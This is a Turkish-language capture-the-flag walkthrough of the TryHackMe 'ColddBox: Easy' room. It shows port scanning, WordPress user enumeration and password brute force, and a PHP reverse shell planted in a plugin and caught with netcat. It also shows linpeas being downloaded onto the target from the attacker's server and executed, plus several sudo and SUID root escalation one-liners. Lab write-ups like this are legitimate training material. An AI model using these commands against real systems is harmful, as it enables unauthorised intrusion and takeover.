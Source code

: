 # TRYHACKME ColddBox : Easy WRITEUP

## Makineye Erişim 
Makineye https://tryhackme.com/room/colddboxeasy adresinden erisebilirsiniz.  

## Çözüm Adımları 
Öncelikle makineye erişmek için openvpn ile TryHackMe'nin ağına bağlanıyoruz: 

```bash
openvpn vpn_dosyamız.ovpn
```
sonra rustscan aracı ile port taraması başlatıyoruz: 

```bash
rustscan -a 10.10.174.16 -- -sC -sV 
```
-a ip belirtir 

-- rustscanden nmap e geçer 

-sC nmap e script taraması yapmasını söyler 

-sV nmap e versiyon taraması yapmasını söyler 

![Resim2](pics/c1.png)

Tarama sonucunda 4512 portunda ssh ve 80 portunda apache2 web server çalıştığını görüyoruz. Websitesine girince websitesinin wordpress ile yapılmış olduğunu görüyoruz.


![Resim2](pics/c2.png)

Wordpress sitelerine saldırı yapmak için hazırlanmış wpscan aracı ile recon yapmaya başlıyoruz: 

```bash
wpscan --url http://10.10.174.16/ --enumerate 
```
--url hedefi belirtir 

--enumerate websitesi hakkında olabildiğince bilgi edinmemizi sağlar 

![Resim4](pics/c3.png)

![Resim4](pics/c4.png)

Tarama sonucunda wpscan aracı birkaç kullanıcı ismi buluyor . Bu kullanıcıların şifresini öğrenmek için brute force yapıyoruz: 

```bash
wpscan --url http://10.10.174.16/ -U users.txt -P rockyou.txt 
```
--url hedefi belirtir  

-U kullanıcı adlarının bulunduğu dosyayı belirtir

-P şifrelerin bulunduğu dosyayı belirtir

![Resim4](pics/c5.png)

Ve c0ldd kullanıcısının şifresini öğreniyoruz. Bu kullanıcı ile websitesine giriş yaptıktan sonra webshell yüklemek için akismet pluginini editleyerek içerisine https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php hazır webshell dosyasının kodlarını yazıyoruz (içerisindeki portu ve ip adresini kendi ipmiz ve kullanmak istediğimiz port ile değiştiriyoruz tabi) . akismet.php dosyasını güncelledikten sonra netcat aracı ile kullanmak istediğimiz portu dinlemeye alıyoruz:   


```bash
nc -lvnp 1337
```
-l dinlemeye geçer 

-v ekstra bilgi verir 

-n dns sorgusunu iptal eder direk ip ile çalışır 

-p port numarasını belirtir

![Resim5](pics/c6.png)

Ardından plugins sayfasında akismet pluginini activate edince içerdeyiz: 

![Resim5](pics/c7.png)

Yetki yükseltme adımını otomatikleştirmek için linux yetki yükseltme aracı olan linpeas i pentest makinemize yüklüyoruz: 

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

-L curl aracına site yönlendirmelerini takip etmesini söyler 

daha sonra dosyayı gönderebilmek için python ile websrever açıyoruz: 

```bash
python3 -m http.server 7000
```

-m kullanılacak modül belirtir 

Hedefte dosyayı herkesin yazma yetkisi olan bir yere yükleyip çalıştırmak için aşağıdaki komutları kullanıyoruz: 

```bash 
cd /dev/shm
```
```bash
wget http://_tryhackme_vpn_ip_adresimiz:7000/linpeas.sh
```
```bash
chmod +x linpeas.sh
```
```bash
./linpeas.sh
```

![Resim5](pics/c8.png)

Tarama sonucunda c0ldd kullanıcısının şifresinin wp-config.php dosyasında yazılı olduğunu görüyoruz ve ardından ssh ile c0ldd kullanıcısı olarak sisteme giriş yapıyoruz:  

```bash 
ssh -p 4512 c0ldd@10.10.174.16
```
-p ssh portunu belirtir

ardından root yetkisi ile çalıştırabileceğimiz komutları öğrenmek için aşağıdaki komutu kullanıyoruz: 

```bash
sudo -l
```

-l yetkileri listeler

Çıktı sonucunda yetkilerimizi 3 farklı yol ile yükseltebileceğimizi görüyoruz. Vim ile yetki yükseltmek için https://gtfobins.github.io/gtfobins/vim/ sayfasına gidiyoruz  

![Resim5](pics/c12.png)

Ve aşağıdaki komut ile yetki yükseltebileceğimizi görüyoruz: 

```bash
sudo vim -c ':!/bin/sh'
```
-c vime çalıştırması gereken programı söyler

![Resim5](pics/c13.png)

chmod komutu ile yetki yükseltmek için ise aşağıdaki komutu kullanıyoruz: 

```bash
sudo chmod 4755 /bin/bash && /bin/bash -p
```
4 suid biti ayarlar yani program her zaman kendi sahibi adına çalışır 
7 dosya sahine read, write, execute yetkisi verir 
5 dosya grubuna read ve execute yetkisi verir 
5 herkese read ve execute yetkisi verir 
&& ve demektir ard arda birden fazla komutu tek satırda çalıştırmak için kullanılır 
-p bash güvenlik nedeniyle root shell i düşürür . Ama bu parametre ile suid varsa shell kalır  

![Resim5](pics/c14.png)

Ftp ile yetki yükseltmek için aşağıdaki komutları kullanıyoruz:

```bash
sudo ftp
```
```bash
!/bin/sh
```

bu sayede ftp üzerinden sh shell açmış oluyoruz. Başka bir yetki yükseltme yöntemi ise suid biti olan find komutu ile yetki yükseltmek . Bunu yapmak için öncelikle sistemdeki tüm suid bitine sahip dosyaları buluyoruz: 

```bash
find / -perm -u=s -type f 2>/dev/null
```
-perm dosyaların izinlerini kontrol eder 

-u=s user (sahip) için suid biti ayarlanmış mı kontrol eder 

-type f  dosya türü f(file) belirtir 

2>/dev/null kontrol etmeye yetkimiz olmayan dosyalar hata verdirecektir. Hata mesajlarını (2>) çöpe(/dev/null) atar 

Ve artık tüm yollarla root olmanın mutluluğu ile odayı bitiriyoruz. 


